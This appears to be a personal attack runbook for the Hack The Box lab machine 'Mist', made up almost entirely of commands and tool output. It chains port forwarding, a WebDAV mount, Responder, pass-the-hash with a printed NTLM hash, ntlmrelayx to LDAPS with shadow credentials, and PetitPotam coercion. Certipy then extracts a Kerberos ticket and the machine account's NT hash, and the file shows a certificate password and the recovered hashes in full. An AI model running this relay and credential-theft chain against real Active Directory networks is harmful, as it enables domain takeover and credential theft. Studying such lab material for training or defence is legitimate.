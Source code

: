 # Force Auth

## open up webdav
.\gost.exe -L tcp://:9999/10.10.16.14:80

## activate webdav
net use h: http://10.10.16.39

## start responder
sudo responder -I tun0

## check if webdav is running
proxychains4 netexec smb 192.168.100.101 -u 'Brandon.Keywarp' -H DB03D6A77A2205BC1D07082740626CC9 -M webdav

## stop responder
#relay
proxychains4 ntlmrelayx.py -t ldaps://192.168.100.100 --shadow-credentials --shadow-target 'MS01$' 

## hit relay
python3 PetitPotam.py -hashes :db03d6a77a2205bc1d07082740626cc9 -u Brandon.Keywarp -no-pass -d mist.htb -pipe all MS01@8888/add 192.168.100.101 

## if got ldap interactive shell 

1. clear_shadow_creds MS01$

2. set_shadow_creds MS01$

// fix:  set_shadow_creds ms01$ 

## Get Certificate

Found Target DN: CN=MS01,CN=Computers,DC=mist,DC=htb
Target SID: S-1-5-21-1045809509-3006658589-2426055941-1108

KeyCredential generated with DeviceID: a664078c-93f9-d1d6-39bd-afd13348a576
Shadow credentials successfully added!
Saved PFX (#PKCS12) certificate & key at path: 435n2mdK.pfx
Must be used with password: CSfB6vYHj3yFiZPlZVVh

## Convert Certificate

export PFX_PASSWORD=CSfB6vYHj3yFiZPlZVVh
export PFX_FILE=435n2mdK.pfx
certipy cert -password $PFX_PASSWORD -pfx $PFX_FILE -out MS01.pem
openssl pkcs12 -in MS01.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out MS01.pfx

## certification to NTLM Hash

proxychains4 certipy auth -pfx MS01.pfx -dc-ip 192.168.100.100 -u "MS01$" -d mist.htb

> [Apr 02, 2024 - 16:54:44 (UTC)] exegol-hackthebox /workspace # proxychains4 certipy auth -pfx ms01.pfx -dc-ip 192.168.100.100 -username 'MS01$' -domain 'mist.htb'                                   
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/libproxychains4.so
[proxychains] DLL init: proxychains-ng 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[!] Could not find identification in the provided certificate
[*] Using principal: ms01$@mist.htb
[*] Trying to get TGT...
[proxychains] Strict chain  ...  198.19.249.3:1080  ...  192.168.100.100:88  ...  OK
[*] Got TGT
[*] Saved credential cache to 'ms01.ccache'
[*] Trying to retrieve NT hash for 'ms01$'
[proxychains] Strict chain  ...  198.19.249.3:1080  ...  192.168.100.100:88  ...  OK
[*] Got hash for 'ms01$@mist.htb': aad3b435b51404eeaad3b435b51404ee:4a74fc05400345d580cf58aec3e6d833

> 4a74fc05400345d580cf58aec3e6d833

